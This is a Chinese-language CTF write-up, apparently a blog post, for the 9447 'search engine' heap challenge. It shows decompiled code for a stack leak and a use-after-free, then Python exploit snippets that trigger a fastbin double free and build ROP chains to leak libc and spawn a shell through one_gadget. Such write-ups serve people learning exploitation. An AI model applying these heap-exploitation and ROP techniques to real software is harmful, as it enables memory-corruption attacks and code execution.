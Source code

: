 ```yaml
---
layout: post
title:  "9447 Search Engine Writeup"
img: how-to-start.jpg
tags: [Writeup]
---
```


## 前言

由於目前看到 heap 題都像看到鬼一樣  
所以開始讀 [how2heap](https://github.com/shellphish/how2heap)  
我偏好看完一種利用方式就找個題目練習 或是自己出  
因此有了這篇 Writeup  

## 題目

檔案在我的 [github](https://github.com/JackGrence/ctf-write-ups/tree/master/practice/9447-search-engine) 裡  
這隻程式可以儲存、尋找、刪除字串  
存字串的時候如果包含空格 例： "deadbeef hihi"  
會被切成兩個部分 "deadbeef", "hihi"  
不過在刪除的時候只要搜尋 "hihi"  
就可以刪掉整個 "deadbeef hihi"  

## Bug

### leak stack address

0x400A40 這個 function 可以 leak stack address

{% highlight c lineos %}
int input_num()
{
  int result; // eax@1
  char *endptr; // [sp+8h] [bp-50h]@1
  char nptr; // [sp+10h] [bp-48h]@1
  __int64 v3; // [sp+48h] [bp-10h]@1

  v3 = *MK_FP(__FS__, 40LL);
  input_sentence((__int64)&nptr, 0x30, 1);
  result = strtol(&nptr, &endptr, 0);
  if ( endptr == &nptr )
  {
    __printf_chk(1LL, "%s is not a valid number\n", &nptr);
    result = input_num();
  }
  *MK_FP(__FS__, 40LL);
  return result;
}
{% endhighlight %}

input_sentence 不會把最後一個 Byte 設為 0  
所以只要塞 0x30 個字到 nptr 就有機會把 stack address 吐出來  

### use-after-free

{% highlight c lineos %}
void search_with_word()
{
  int search_word_size; // ebp@1
  void *malloc_search_word; // r12@2
  sentence_node *sentence_search; // rbx@2
  char v3; // [sp+0h] [bp-38h]@8

  puts("Enter the word size:");
  search_word_size = input_num();
  if ( (unsigned int)(search_word_size - 1) > 0xFFFD )
    put_exit("Invalid size");
  puts("Enter the word:");
  malloc_search_word = malloc(search_word_size);
  input_sentence((__int64)malloc_search_word, search_word_size, 0);
  sentence_search = (sentence_node *)sentence_list;
  if ( sentence_list )
  {
    do
    {
      if ( *(_BYTE *)sentence_search->main_string )
      {
        if ( sentence_search->sub_size == search_word_size
          && !memcmp((const void *)sentence_search->substr,
                     malloc_search_word, search_word_size) )
        {
          __printf_chk(1LL, "Found %d: ", sentence_search->mainstr_size);
          fwrite((const void *)sentence_search->main_string,
                  1uLL, sentence_search->mainstr_size, stdout);
          putchar(10);
          puts("Delete this sentence (y/n)?");
          input_sentence((__int64)&v3, 2, 1);
          if ( v3 == 'y' )
          {
            memset((void *)sentence_search->main_string, 0,
                   sentence_search->mainstr_size);
            free((void *)sentence_search->main_string);
            puts("Deleted!");
          }
        }
      }
      sentence_search = (sentence_node *)sentence_search->next_node;
    }
    while ( sentence_search );
  }
  free(malloc_search_word);
}
{% endhighlight %}

這一段是在做搜尋 然後找到字串後會詢問是否刪除  
sentence_list 會指向 sentence_node  
  
sentence_node 結構大概長這樣：  

{% highlight c lineos %}
00000000 sentence_node   struc ; (sizeof=0x28, mappedto_2)
00000000 substr          dq ?
00000008 sub_size        dd ?
0000000C unknow1         dd ?
00000010 main_string     dq ?
00000018 mainstr_size    dd ?
0000001C unknow2         dd ?
00000020 next_node       dq ?
00000028 sentence_node   ends
{% endhighlight %}

雖然刪除的時候會刪掉字串內容  
但是 sentence_list 不會被清除  
只要想辦法讓他再找到同個字串就可以 double free  
( 其實直接找 '\x00' 就可以了 詳情請[參考這篇](https://github.com/pwning/public-writeup/blob/master/9447ctf2015/pwn230-search/pwn.py#L126) )  
  
另外搜尋字串一開始會 malloc 一個空間出來  
會在函數的尾端 free 掉  
但是並不會清除內容  
所以可以利用它重設 sentence_list 裡的字串值  

## 我的解法

要小心 malloc 出來的 chunk size 不要落在 0x30  
因為會跟 sentence_node 衝到  
所以放出來的 chunk size 我控制在 0x40  
而且在 return address 附近  
0x0000000000000040 這樣的值比較好找 XD  

{% highlight python lineos %}
create_sentence(0x30, '        a')
create_sentence(0x30, 'b')
create_sentence(0x30, 'c')
delete_sentence('b')
delete_sentence('a')
search_sentence(0x30, '        a')
delete_sentence('c')
delete_sentence('a')  # double free!!
{% endhighlight %}

a 字串前面放八個空白是因為 chunk size 0x40 被 free 的時候  
前面八個 Byte 會被拿去用來指向其他一樣大小的 free chunk  
也就是 free chunk 結構裡的 fd  
  
search_sentence 只做查詢的動作 不會刪除東西  
剛好 fastbin 狀態為 HEAD->a->b->TAIL  
所以查詢時調整一下 chunk size 就能拿到 a chunk  
然後把字串塞進去  
因為最後會被 free 掉且不會清除內容  
所以我們的 a 字串的 a 又回來了！  

*Get double free!*  
  
成功寫到 return address 之後  
要先把能寫的 stack 放大  
不然會塞不下 ROP...  

{% highlight python lineos %}
leak += 16 + 6 + 8 * 5  # expand stack address
new_stack = leak + 0x200
buf = '\x00' * 6
buf += flat([pop_rdi, leak, pop_rsi, 0x50, input_sentence])
assert len(buf) <= 0x30, 'buf too long'
create_sentence(0x30, buf)

proc.recvuntil('3: Quit\n')
proc.sendline('3')

buf = flat([pop_rdi, puts_got, puts_plt, pop_rdi, new_stack, pop_rsi,
            0x88, input_sentence, pop_rsp_r13_r14, new_stack])
{% endhighlight %}

leak 在 main function return address 的附近  
用來放我的第一個 ROP ( 第四行 )  
這邊加上偏移後會落在 input_sentence 後面  
然後繼續輸入下一次的 ROP  
  
我利用它本身輸入字串的函數 (0x4009B0)  
把值寫進去  
缺點是 rdx 如果剛好是 0  
只要出現 0x0a 這個 Byte 就會被濾掉  
  
剩下就是 leak libc base address  
跳到 one_gadget 就拿到 shell 了！  
( 我不是在當下解的 所以 libc offset 會不准 )  
  
看到別人的 writeup 之後發現 libc base address  
還可以利用 smallbin 拿到 詳情[請看這裡](https://github.com/pwning/public-writeup/blob/master/9447ctf2015/pwn230-search/pwn.py#L74)  
~~這世界存在著各種奇技淫巧~~  
  
完整的 code 在我的 [github](https://github.com/JackGrence/ctf-write-ups/tree/master/practice/9447-search-engine) 裡
